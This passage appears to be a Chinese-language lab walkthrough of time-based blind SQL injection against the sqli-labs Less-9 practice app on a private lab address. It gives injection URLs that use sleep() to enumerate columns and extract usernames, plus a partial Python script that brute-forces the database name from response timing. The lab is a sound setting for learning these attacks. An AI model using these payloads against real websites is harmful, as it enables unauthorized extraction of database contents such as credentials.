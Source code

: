 ##### 判断列数

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if((select count(column_name) from information_schema.columns where table_name='users' and table_schema=database())=3,sleep(5),0)--+
```

![image-20240805194942858](../../../../repo/assets/19.SQL注入/image-20240805194942858.png)

##### 判断列名

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),1,1))=105,sleep(5),0)--+
```

`id,username,password`

![image-20240805195109460](../../../../repo/assets/19.SQL注入/image-20240805195109460.png)

##### 获取字段值

字段值行数

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if((select count(username) from users)=13,sleep(5),0)--+
```

![image-20240805195142927](../../../../repo/assets/19.SQL注入/image-20240805195142927.png)

字段值

```bash
http://192.168.70.14:8088/Less-9/?id=1' and if(ascii(substr((select username from users limit 0,1),1,1))=68,sleep(5),0)--+
```

`Dumb`

![image-20240805195239742](../../../../repo/assets/19.SQL注入/image-20240805195239742.png)

#### python代码：时间盲注

```python
import requests
import time
import datetime

url = "http://192.168.70.14:8088/Less-9/?id=1'"

def get_dbname():
    dbname = ''
    for i in range(1,9):
        for k in range(32,127):
            payload = "and if(ascii(substr(database(),{0},1))={1},sleep(2),1)--+".format(i,k)
            #if语句里面的sleep(2)为如果注入语句正确就睡眠两秒
            time1 = datetime.datetime.now()
            #获得提交payload之前的时间
            res = requests.get(url + payload)
            time2 = datetime.datetime.now()
            #获得payload提交后的时间
            difference = (time2 - time1).seconds
            #time，time2时间差，seconds是只查看秒
            if difference > 1:
                dbname += chr(k)
            else:
                continue
```